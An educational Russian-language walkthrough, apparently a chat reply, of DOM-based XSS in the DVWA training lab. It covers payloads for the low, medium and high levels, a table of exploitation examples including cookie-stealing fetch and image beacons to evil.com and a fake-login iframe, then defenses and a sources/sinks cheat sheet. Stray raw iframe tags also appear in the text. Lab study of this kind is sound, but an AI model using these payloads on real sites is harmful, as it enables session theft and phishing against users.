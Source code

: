 **DOM-based XSS**. Это одна из самых **скрытных и опасных** форм XSS, и сейчас объясню всё по полочкам — как это работает, что ты сделал, и какие возможны улучшения атаки.

---

# 📘 Анализ DOM-based XSS в DVWA

---

## 💡 Что такое DOM-based XSS?

**DOM-based XSS** — это уязвимость, при которой вредоносный код исполняется **на стороне клиента (в браузере)**, а не через ответ сервера.
То есть:

* Сервер не видит вредоносный код.
* Уязвимость возникает в **JavaScript-коде на странице**, который **обрабатывает данные из URL** (например, `location.hash`, `location.search`, `document.URL`, `document.referrer`) и **вставляет их в DOM без проверки**.

---

## 🧪 Уровень Low

🔗 **URL**:

```
http://localhost:8081/vulnerabilities/xss_d/?default=<script>alert(1)</script>
```

### 🔍 Что происходит?

1. JavaScript получает `default` из `location.search`:

   ```js
   var defaultLang = document.URL.split('default=')[1];
   document.getElementById("languageSelect").innerHTML = defaultLang;
   ```
2. Это вставляется в `innerHTML`, без какой-либо фильтрации.

➡️ Поэтому `<script>alert(1)</script>` **выполняется**.
- <iframe src="javascript:alert(`xss`)">
---

## 🧪 Уровень Medium

🔗 **URL**:

```
http://localhost:8081/vulnerabilities/xss_d/?default=</option></select><img src=123.png onerror="alert(document.cookie)">
```

### 🔍 Что происходит?

1. JavaScript снова вставляет значение параметра `default` в DOM (внутрь `<select>`).
2. Мы закрываем `<option>` и `<select>`, а затем **вставляем `img` с onerror\`** — хитрый обход фильтра.

### 🧠 Почему работает?

* Браузер **парсит HTML**, и создаёт DOM-элементы.
* Так как это `innerHTML`, всё внутри парсится как HTML — включая закрытие тегов и создание новых элементов.
* Мы фактически "вышли" из `<select>`, и добавили свой `<img>` с вредоносным JavaScript.

---

## 🧪 Уровень High

🔗 **URL**:

```
http://localhost:8081/vulnerabilities/xss_d/?default=English#<script>alert(document.cookie);</script>
```

### 🔍 Что происходит?

1. В коде `default` теперь читается не из `location.search`, а из **`location.hash`** (`#...`).
2. То есть JavaScript, например, делает:

   ```js
   var lang = location.hash;
   document.getElementById("output").innerHTML = lang;
   ```
3. И снова вставляет `innerHTML` — без проверки.

➡️ Поэтому `<script>alert(document.cookie);</script>` срабатывает при **обновлении страницы**.
- <iframe src="javascript:alert(document.cookie)">
- <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
---

## 📌 Почему DOM XSS опасен?

| Фактор                               | Почему                                                                     |
| ------------------------------------ | -------------------------------------------------------------------------- |
| Не видно на сервере                  | Сервер не получает вредоносный скрипт                                      |
| Антивирус не ловит                   | Он в `#fragment` — браузер туда не заглядывает, если специально не сказать |
| Может применяться в SPA              | Особенно актуально в Single Page Applications                              |
| Можно подменять DOM без перезагрузки | Очень гибкий инструмент для атак                                           |

---

## 🎯 Как можно эксплуатировать?

| Цель               | Пример                                                                   | Что произойдёт                 |
| ------------------ | ------------------------------------------------------------------------ | ------------------------------ |
| Похищение куки     | `#<script>fetch('https://evil.com?c='+document.cookie)</script>`         | Отправит сессию злоумышленнику |
| Подмена DOM        | `#<h1>You got hacked</h1>`                                               | Вставка кастомного HTML        |
| Фишинг прямо в SPA | `#<iframe src="https://fake-login.com"></iframe>`                        | Маскировка под страницу входа  |
| Silent Payload     | `#<img src=x onerror="new Image().src='//evil.com/c='+document.cookie">` | Тихая отправка данных          |

---

## 🛡️ Как защищаться от DOM XSS?

* Никогда не использовать `innerHTML`, если можно обойтись `textContent` или `innerText`.
* Не вставлять данные из `location.*` напрямую в DOM.
* Применять CSP (Content Security Policy), особенно блокировку `unsafe-inline`.
* Использовать **DOMPurify** для очистки пользовательских данных.
* Убедиться, что фреймворки (React, Vue, Angular) не допускают raw вставки HTML без явного разрешения (`dangerouslySetInnerHTML` и аналоги).

---

## 🧰 Дополнение — шпаргалка DOM-XSS источников и sinks

| Источники (`sources`) | Потенциально опасные значения |
| --------------------- | ----------------------------- |
| `location.search`     | everything after `?`          |
| `location.hash`       | everything after `#`          |
| `document.referrer`   | откуда перешли                |
| `document.URL`        | весь URL                      |

| Места вставки (`sinks`)          | Угроза                 |
| -------------------------------- | ---------------------- |
| `innerHTML`                      | интерпретирует HTML/JS |
| `document.write`                 | исполняет сразу        |
| `eval()`                         | исполняет как код      |
| `setTimeout("...")`              | если строка            |
| `setAttribute("onclick", "...")` | внедряет обработчики   |

---

Следует подготовить:

✅ Таблицу атак для DOM-XSS
✅ Сценарии эксплуатации в современных SPA
✅ Шаблоны фильтрации и безопасного взаимодействия с DOM

